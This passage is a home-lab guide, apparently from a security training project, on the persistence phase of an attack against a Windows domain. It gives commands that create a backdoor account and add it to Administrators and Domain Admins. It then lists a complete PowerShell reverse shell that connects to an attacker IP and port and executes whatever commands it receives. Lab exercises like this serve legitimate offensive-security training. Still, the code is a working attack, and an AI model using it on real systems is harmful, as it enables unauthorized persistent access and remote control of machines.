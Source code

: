 
## Persistence

Persistence ensures that the attacker can regain access even after the initial compromise is discovered.

### Mandatory VMs Powered-On (Persistence)

- [project-x-sec-box]
- [project-x-dc]
- [project-x-attacker]

---

### Attack Graph (Persistence)

*Attack graph diagram not included.*

---

### Operations (Persistence)

#### Create A Local Account
- Create a new user account to blend in:
  ```
  net user project-x-user @mysecurepassword1! /add
  net localgroup Administrators project-x-user /add
  net group "Domain Admins" project-x-user /add
  ```
- Verify the account:
  ```
  net user project-x-user /domain
  ```

#### Scheduled Task With Reverse Shell
- On the Kali machine, create a reverse shell script:
  ```
  sudo nano reverse.ps1
  ```
- Paste the following PowerShell script:
  ```powershell
  $ip = "10.0.0.50"      # Replace with your attacker's IP address
  $port = 4444           # Replace with the port number you want to listen on

  $client = New-Object System.Net.Sockets.TCPClient($ip, $port)
  $stream = $client.GetStream()
  $writer = New-Object System.IO.StreamWriter($stream)
  $reader = New-Object System.IO.StreamReader($stream)
  $writer.AutoFlush = $true
  $writer.WriteLine("Connected to reverse shell!")
  while ($true) {
      try {
          # Read commands from the listener (attacker)
          $command = $reader.ReadLine()
          if ($command -eq 'exit') {
              break
          }
          # Execute the command on the target machine
          $output = Invoke-Expression $command 2>&1
          $writer.WriteLine($output)
      } catch {
          $writer.WriteLine("Error: $_")
      }
  }
  $client.Close()
  ```